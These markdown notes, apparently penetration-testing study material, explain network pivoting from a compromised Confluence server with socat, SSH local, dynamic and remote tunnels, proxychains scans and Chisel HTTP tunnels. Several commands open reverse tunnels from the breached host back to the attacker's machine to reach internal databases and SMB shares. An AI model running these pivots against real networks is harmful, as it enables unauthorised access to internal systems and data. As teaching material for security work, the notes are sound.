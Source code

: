 ### Port Forwarding
#### Basic Terminology
- **WAN** - is a network that is large and expansive. Internet is referred as largest WAN in the world. Some large organization also refer to there large internal network as WAN or internal WAN.
- **Demilitarized Zone (DMZ)** - acts as a barrier between public network and private network.
- **Socat** - is a general purpose networking tool that can setup a simple port forward in a single command.
#### Scenario
- Our attacker machine is `Kali-Machine`. We can access `Confluence01` due to being in WAN. We have found an exploit that gives us RCE on `Confluence01` through port `8090`.
- We also found that `Confluence01` server has 2 network interfaces. One attached to exposed `Kali-Machine` (public network) through which we were able to reach it directly. Another on an internal subnet. 
- Furthermore, on `Confluence01` we also found credentials and IP and Port for PostgreSQL database on a server - `PGDatabase01` - in that internal subnet.
#### Port Forwarding with Socat
![Screenshot of Socat Port Forwarding](./images/socat-pf.png)
- As we can see our Kali-Machine is in WAN, `PGDatabase01` is in DMZ and `Confluence01` is stranded between both networks. Our objective is to access `psql` on `PGDatabase01` on port `5432` . We have already accessed `Confluence01` from `Kali-Machine`. We don’t have psql client on `Confluence01`, so can’t connect to `PGDatabase01` directly.
- We can see there is no firewall between `Kali-Machine` and `Confluence01`, so we can access any WAN port of `Confluence01`. In such case, we can create a port forward on `Confluence01` that listens on a port on a WAN interface, then forward all packets received on port `5432` to the `PGDatabase01` on the internal subnet.
- `CONFLUENCE01> socat TCP-LISTEN:<CONFLUENCE01-PORT>,fork TCP:<PGDATABASE01-IP>:<PGDATABASE01-PORT>`
    - Here, `<PGDATABASE01-PORT>` is 5432
	- After port forwarding, `Kali> psql –h <CONFLUENCE01-IP> -p <CONFLUENCE01-PORT> –U <username>` -> Enter password
	- Any packet received on `<CONFLUENCE01-PORT>` will be forwarded to `<PGDATABASE01-PORT>` of `PGDATABASE01`.
#### SSH Local Port Forwarding
![Screenshot of SSH Local Port Forwarding](./images/SSH-Local-PF.png)
- In this scenario, we have credentials of SSH of `PGDATABASE01` , so we can connect from `CONFLUENCE01`. Also, `socat` is not installed on `CONFLUENCE01`. We still don’t have firewall between `Kali-Machine` and `CONFLUENCE01`. On further exploration, we found that some internal host (`INTERNAL01` ) connected to `PGDATABASE01` has port `445` open.
- Our objective is to connect to `INTERNAL01` via port `445`. We don’t have `smbclient` on `PGDATABASE01` or `socat` to port forward from `CONFLUENCE01`, so can’t directly connect. So, we will use port forward to provide access for `Kali-Machine` to port `445` of `INTERNAL01`.
- `CONFLUENCE01> ssh -N -L 0.0.0.0:<CONFLUENCE01-Port>:<INTERNAL01-IP>:<INTERNAL01-Port> <PGDATABASE01-Username>@<PGDATABASE01-IP>`
    - This will first establish SSH Connection between `CONFLUENCE01` and `PGDATABASE01`. Then, `CONFLUENCE01` will open `<CONFLUENCE01-Port>`.
	- After port forwarding established, `Kali> smbclient –p <CONFLUENCE01-Port> –L //<CONFLUENCE01-IP>/ -U <INTERNAL01-username> –password=<INTERNAL01-password>`
	- Any packet received on `<CONFLUENCE01-Port>` of `CONFLUENCE01` , will be tunneled through SSH connection to `PGDATABASE01`. Then `PGDATABASE01` will forward all those packets to `<INTERNAL01-Port>` of `INTERNAL01`. Here, `<INTERNAL01-Port>` is port `445` of `INTERNAL01` machine.
#### SSH Dynamic Port Forwarding
![Screenshot of SSH Dynamic Port Forwarding](./images/SSH-Dynamic-PF.png)
- This has same scenario as `SSH Local Port Forwarding`. Local Port Forwarding has one limitation, we can only connect one socket per SSH connection. That means even if we found on `PGDATABASE01` we have 2 new hosts, but we can't connect to them simultaneously. This makes scaling tedious.
- Our objective here is connect to any Internal host and any open port on that host that is accessible to `PGDATABASE01`. The only limitation to this method is packet sent from `Kali-Machine` to `CONFLUENCE01` should be in `SOCKS` format.
- `CONFLUENCE01> ssh -N -D 0.0.0.0:<CONFLUENCE01-Port> <PGDATABASE01-Username>@<PGDATABASE01-IP>`
    - This will first establish SSH Connection between `CONFLUENCE01` and `PGDATABASE01`. Then, `CONFLUENCE01` will open `<CONFLUENCE01-Port>`.
	- Append line - `socks4 <CONFLUENCE01-IP> <CONFLUENCE01-Port>` - to `/etc/proxychains4.conf`. If this doesn’t work, try - `socks5 <CONFLUENCE01-IP> <CONFLUENCE01-Port>`.
	- `Kali> proxychains nmap –vvv –sT --top-ports=20 –Pn <INTERNAL0x-IP>`
	- Due to `proxychains` keyword, it will prepare request packet in `SOCKS` format and force all traffic through `SOCKS` proxy we specified in `/etc/proxychains4.conf`. Any packet received on `<CONFLUENCE01-Port>` of `CONFLUENCE01`, will be tunneled through SSH connection to `PGDATABASE01`. Then `PGDATABASE01` will forward all those packets to whichever port and internal host it is intended to go.
#### SSH Remote Port Forwarding
![Screenshot of SSH Remote Port Forwarding](./images/SSH-Remote-PF.png)
- In this scenario, due to introduction of firewall between `Kali-Machine` and `CONFLUENCE01` , the only inbound traffic allowed is through port `8090` i.e. Confluence server port. But, we can see that outbound traffic is allowed from all port. Also, we will assume that we don’t have tool to enumerate `PGDATABASE01` from `CONFLUENCE01` .
- Our objective here is to access port `5432` of `PGDATABASE01` from `Kali-Machine`.
- `Kali> service ssh start`
- `CONFLUENCE01> ssh -N -R 127.0.0.1:<Kali-Port>:<PGDATABASE01-IP>:<PGDATABASE01-Port> <Kali-username>@<Kali-IP>`
    - This will first establish SSH Connection between `CONFLUENCE01` and `Kali-Machine` . The idea here is any packet sent to `<Kali-Port>` of `Kali-Machine` (used 127.0.0.1 referencing to Kali localhost), will be forwarded to `PGDATABASE01`.
	- `Kali> psql –h 127.0.0.1 -p <Kali-Port> –U <PGDATABASE01-username>` → Password: `<PGDATABASE01-password>`
	- Any packet received on `<Kali-Port>` of `Kali-Machine` , as Kali machine is bound to the loopback interface, will be pushed by the SSH server through SSH tunnel back to the SSH client to `CONFLUENCE01`. Then, will be forwarded to `<PGDATABASE01-PORT>` of `PGDATABASE01`.
#### SSH Remote Dynamic Port Forwarding
![Screenshot of SSH Remote Dynamic Port Forwarding](./images/SSH-Remote-Dynamic-PF.png)
- Similar scenario as `SSH Remote Port Forwarding`, just need some changes to make solution scalable. Our objective is to connect to any host and any port on that host that is in contact with `CONFLUENCE01`, other than `PGDATABASE01`. Here, one such host is `MULTISERVER03`.
- `Kali> service ssh start`
- `CONFLUENCE01> ssh -N -R <Kali-Port> <Kali-username>@<Kali-IP>`
    - This will first establish SSH Connection between `CONFLUENCE01` and `Kali-Machine`.
	- Append line - `socks4 127.0.0.1 <Kali-Port>` - to `/etc/proxychains4.conf`. If this doesn’t work, try - `socks5 127.0.0.1 <Kali-Port>`.
	- `Kali> proxychains nmap –vvv –sT --top-ports=20 –Pn <MULTISERVER03-IP>`
	- Due to `proxychains` keyword, it will prepare request packet in `SOCKS` format and force all traffic through SOCKS proxy we specified in `/etc/proxychains4.conf` i.e. `127.0.0.1:<Kali-Port>`. Any packet received on `<Kali-Port>` of `Kali-Machine`, as Kali machine is bound to the loopback interface, will be pushed by the SSH server through SSH tunnel back to the SSH client to `CONFLUENCE01`. Then, will be forwarded to `MULTISERVER03`.
#### Chisel
- This tool works similar to SSH Remote Port Forwarding , just the difference is outbound traffic of is blocked for all ports other than port 80(HTTP). So, instead of port 22 (ssh), it setup connection on port 80 (HTTP).
- Steps -
    - `wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_arm64.gz` → For local system as server
    - `gzip -d chisel_1.7.7_linux_arm64.gz`
    - `chmod +x chisel_1.7.7_linux_arm64`
    - `wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_386.gz` → For remote system as client
    - `gzip -d chisel_1.7.7_linux_386.gz`
    - Transfer `chisel_1.7.7_linux_386` to remote system at `/tmp`
    - `remote> chmod +x chisel_1.7.7_linux_386`
    - `local> ./chisel_1.7.7_linux_arm64 server --port <Kali-HTTP-Tunnel-Port> -reverse`
	    - `local> ./chisel_1.7.7_linux_arm64 server --port 8000 -reverse`
		    - Open port `8000` for communication via chisel
![Screenshot of Chisel Server](./images/chisel-server.png)
	- `remote> ./chisel_1.7.7_linux_386 client <Kali-IP>:<Kali-HTTP-Tunnel-Port> R:<Kali-Port>:<Remote-IP>:<Remote-Port>`
	    - In this example, we are planning to connect to Direct port of Remote system, so it is `127.0.0.1`. But, `<Remote-IP>` can be any other host in contact with Remote system as well.
	    - `remote> ./chisel_1.7.7_linux_386 client <Attacker-IP>:8000 R:3306:127.0.0.1:3306`
		    - Connect to server on listening port `8000`. Then enable communication of `3306` port on local system to `3306` port on this (remote) system.
![Screenshot of Chisel Client](./images/chisel-client.png)
	- `local> ss -ntplu` → Check if `8000` and `3306` port are open
    - `local> mysql -u '<username>' -D '<database>' -h 127.0.0.1 -p` → Password: `<password>`
	    - Mysql connection request made to `127.0.0.1:3306` will be forwarded through HTTP Tunnel to port `3306` of Remote system.
- For Dynamic Port Forwarding,
    - `local> ./chisel_1.7.7_linux_arm64 server --port <Kali-HTTP-Tunnel-Port> -reverse`
	- `remote> ./chisel_1.7.7_linux_386 client <Kali-IP>:<Kali-HTTP-Tunnel-Port> R:socks > /dev/null 2>&1 &`
        - Connect to chisel server running on Kali machine, creating a reverse `SOCKS` tunnel. `R` prefix specifies reverse tunnel using SOCKS proxy which is bound to `1080` by default.
	- `local> ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' <username>@<IP>`
        - Due to proxy setup, chisel server will encapsulate whatever we sent through SOCKS port i.e. at `127.0.0.1:1080`  and push it through the HTTP Tunnel, SSH-encrypted. Chisel client will decapsulate it and push it wherever it is addressed.
		- We can also perform, `/etc/proxychains4.conf` method for this.
